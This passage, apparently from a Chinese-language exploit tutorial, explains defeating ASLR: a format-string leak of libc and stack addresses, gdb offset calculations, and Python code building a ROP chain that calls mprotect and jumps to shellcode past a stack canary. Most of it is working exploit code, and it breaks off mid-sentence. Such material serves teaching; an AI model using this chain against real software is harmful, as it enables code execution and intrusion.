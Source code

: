 击败ASLR  
  
是的，这种保护措施确实让攻击变得更加困难，也使漏洞利用更加复杂，尤其是在与上述其他保护措施结合使用时。然而，我们仍然可以采取很多措施来绕过这种保护措施。一种策略是利用任何内存泄露漏洞或其他技术泄露所需的地址，这样我们就可以绕过随机化机制并绕过保护措施。为了构建我们的 ROP 链，我们只需要一个属于模块/库的地址。通过这个地址，我们可以计算出模块的基址以及所有所需的 ROP 小工具。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXr3wd6036wIJZhFqU8Sd9TjXyvrlLHROxl0ErLIiacN8sRDBpgzJkaNOw/640?wx_fmt=png&from=appmsg "")  
  
如图所示，堆栈中有一些相对于 Libc 的地址，也有一些相对于堆栈的地址。我们需要泄露这些地址，以便动态计算所需的重要 ROP Gadget 的地址以及 Shellcode 的地址。因此，我们需要更新函数leak_canary以泄露这些所需的地址，并将其重命名为合适的名称，例如leak_stuff。  
  
```
def leak_stuff(p: Popen):    p.stdin.write( b"1\n" + b"%49$p %51$p %67$p\n" + b"2\n")    p.stdin.flush()    out= b""    pos = -1    n = 0        while n < 1024:        out = p.stdout.readline()        pos = out.find( b"0x" )        ifbool( ~pos ):            break        n += 1    else:        return [ -1 ] * 3    info = []    n = 3    whilebool( n ):        out= out[pos:]        end = out.find( b" " )        info += [ int(out[:end], 16) ]        pos = ( end + 1 )        n -= 1    return info
```  
  
  
泄露这些地址后，我们需要修改该hijack_exec函数，将 C 库基址和 Shellcode 地址作为参数传入。但首先，我们需要根据这些泄露的地址计算出我们需要的信息。  
  
```
(gdb) p/x 0x7ffff7dd7d68-0x00007ffff7dae000$1 = 0x29d68
```  
  
  
将泄漏的地址（相对于 Libc）减去库的基地址，我们得到这个结果。因此，我们必须从这个结果中减去泄漏的地址，才能得到库的基地址。  
  
```
(gdb) p/x 0x7fffffffde98-(0x7fffffffddb0+0x40)$2 = 0xa8
```  
  
  
将泄漏的相对于堆栈的地址从shellcode地址中减去，可以得到这个结果。因此，我们必须从这个结果中减去泄漏的地址，才能得到shellcode的地址。  
  
```
def hijack_exec(p: Popen, canary, libc_base, shellcode):    stack_page = shellcode & 0xfffffffffffff000           # Aligne the address to the page boundary.    payload = b""    payload += b"A" * 0x106                               # Fills the stack frame    payload += struct.pack( "<Q", canary ) # Places the correct canary value     payload += b"B" * 0x8                                 # Base pointer    payload += struct.pack( "<Q", libc_base + 0x2a205 ) # pop rdi; ret    payload += struct.pack( "<Q", stack_page ) # The aligned stack page address    payload += struct.pack( "<Q", libc_base + 0x2bb39 ) # pop rsi; ret    payload += struct.pack( "<Q", 0x1000 ) # Page size     payload += struct.pack( "<Q", libc_base + 0x10d37d ) # pop rdx; ret    payload += struct.pack( "<Q", 0x01 | 0x02 | 0x04 ) # Protections: PROT_EXEC=0x01, PROT_WRITE=0x02, PROT_READ=0x04     payload += struct.pack( "<Q", libc_base + 0x10d200 ) # mprotect function address    payload += struct.pack( "<Q", shellcode ) # Jump into shellcode    payload += b"\x90" * 0x40                             # NOPs for padding    payload += buf # Shellcode    p.stdin.write( b"1\n" )    p.stdin.write( payload + b"\n" )    p.stdin.flush()
```  
  
  
现在，该函数可以根据所有所需 ROP 小工具的相对虚拟地址 (RVA) 动态高效地计算出它们相对于 Libc 基地址的地址。现在我们只需要修改主函数中的两行代码。  
  
  
```
canary, libc_relative_addr, stack_relative_addr = leak_stuff( p )
```  
  
  
和  
  